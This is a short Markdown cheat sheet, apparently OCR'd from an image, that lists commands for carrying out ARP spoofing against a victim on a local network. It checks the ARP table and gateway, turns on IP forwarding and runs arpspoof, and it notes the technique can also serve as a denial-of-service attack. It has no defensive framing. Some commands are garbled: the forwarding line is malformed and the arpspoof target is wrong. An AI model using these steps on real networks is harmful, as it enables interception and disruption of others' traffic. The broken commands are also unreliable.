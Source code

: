 # Hacking: 

## ARP spoofing: 
1. Check ARP table:
```
arp
```
2. Check default gateway LAN IP address: 
```
ip r | grep default
```
3. Change the attacker machine into a rounter 
```
echo > l /proc/sys/net/ipv4/ip_forward
```
4. Process ARP spoofing: 
```
sudo arpspoof -i eth0 -t [victim LAN IP address] -r [attacker machine LAN IP address]
```

> Can use ARP spoofing as DoS attack.